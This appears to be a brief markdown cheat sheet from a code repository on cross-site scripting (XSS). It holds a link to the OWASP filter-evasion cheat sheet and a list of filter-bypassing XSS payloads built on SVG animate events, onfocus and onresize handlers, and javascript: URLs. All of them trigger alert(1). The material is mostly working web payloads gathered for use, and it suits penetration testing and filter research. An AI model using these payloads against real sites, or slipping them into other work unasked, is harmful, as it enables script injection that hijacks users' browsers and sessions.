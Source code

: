 # XSS

### Usefull links 
- https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

### Usefull payloads

```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
<svg><a><animate+attributeName=xlink:hrefbegin=0from=javascript:alert(1)to=&>
<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
<xss id=x tabindex=1 onfocus=alert(1)> <!-- url#x -->
<tag onresize=alert(1)> // <iframe src="url" onload="this.width = 100"> <!-- or use window.open and window.sizeTo -->
```
```js
location = "javascript:"+location // with %0aalert(1) in url
```